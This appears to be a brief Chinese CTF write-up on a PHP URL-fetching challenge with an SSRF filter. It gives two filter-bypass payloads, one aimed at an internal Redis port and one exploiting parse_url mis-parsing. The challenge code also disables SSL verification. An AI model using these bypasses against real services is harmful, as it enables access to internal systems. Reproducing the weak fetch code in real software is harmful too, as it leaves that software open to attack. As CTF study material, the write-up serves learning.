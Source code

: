 ```php
                $long===false && $ip = null;
                @putenv('RES_OPTIONS');
            }
        }else{
            $ip = $parsed['host'];
        }
        $ip && $validate_ip = filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE);
    }

    if(!in_array($parsed['scheme'],array('http','https')) || !$validate_ip){
        echo "<b>{$url} 请求错误:非正常URL格式,因安全问题只允许抓取 http:// 或 https:// 开头的链接或公有IP地址</b>".PHP_EOL;
        
        return false;
    }else{
        return $url;
    }
}


function curl($url){
    $safe = false;
    if(safe_url($url,$safe)) {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
        curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
        $co = curl_exec($ch);
        curl_close($ch);
        echo $co;
    }
}

highlight_file(__FILE__);
curl($_GET['url']);

```

emmm，这题是原题。https://tyaoo.github.io/2020/08/31/2020-GACTF-web/ ,我是后来才知道的。。。。

绕过端口限制的方法一种是：`http://foo@127.0.0.1:6379%20@www.baidu.com/`

还有一个是：`http:/ctf.ccreater.top:5000/`

`var_dump(parse_url)`

```
array(2) {
  'scheme' =>
  string(4) "http"
  'path' =>
  string(23) "/ctf.ccreater.top:5000/"
}
```
